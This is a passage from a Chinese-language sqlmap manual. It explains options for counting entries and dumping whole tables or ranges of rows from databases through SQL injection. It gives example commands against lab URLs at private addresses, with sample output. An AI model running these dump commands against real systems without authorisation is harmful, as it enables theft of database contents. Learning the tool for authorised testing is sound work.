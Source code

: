 	有时候用户只想获取表中的数据个数而不是具体的内容，那么就可以使用这个参数。
	
	列举一个Microsoft SQL Server例子：
	
	$ python sqlmap.py -u "http://192.168.21.129/sqlmap/mssql/iis/get_int.asp?id=1" --count -D testdb
	[...]
	Database: testdb
	+----------------+---------+
	| Table          | Entries |
	+----------------+---------+
	| dbo.users      | 4       |
	| dbo.users_blob | 2       |
	+----------------+---------+

#### 获取整个表的数据

	参数：--dump,-C,-T,-D,--start,--stop,--first,--last
	
	如果当前管理员有权限读取数据库其中的一个表的话，那么就能获取整个表的所有内容。
	
	使用-D,-T参数指定想要获取哪个库的哪个表，不适用-D参数时，默认使用当前库。
	
	列举一个Firebird的例子：
	
	$ python sqlmap.py -u "http://192.168.136.131/sqlmap/firebird/get_int.php?id=1" --dump -T users
	[...]
	Database: Firebird_masterdb
	Table: USERS
	[4 entries]
	+----+--------+------------+
	| ID | NAME   | SURNAME    |
	+----+--------+------------+
	| 1  | luther | blisset    |
	| 2  | fluffy | bunny      |
	| 3  | wu     | ming       |
	| 4  | NULL   | nameisnull |
	+----+--------+------------+
可以获取指定库中的所有表的内容，只用-dump跟-D参数（不使用-T与-C参数）。

也可以用-dump跟-C获取指定的字段内容。

sqlmap为每个表生成了一个CSV文件。

如果你只想获取一段数据，可以使用--start和--stop参数，例如，你只想获取第一段数据可hi使用--stop 1，如果想获取第二段与第三段数据，使用参数 --start 1 --stop 3。

也可以用--first与--last参数，获取第几个字符到第几个字符的内容，如果你想获取字段中地三个字符到第五个字符的内容，使用--first 3 --last 5，只在盲注的时候使用，因为其他方式可以准确的获取注入内容，不需要一个字符一个字符的猜解。

#### 获取所有数据库表的内容

	参数：--dump-all,--exclude-sysdbs
	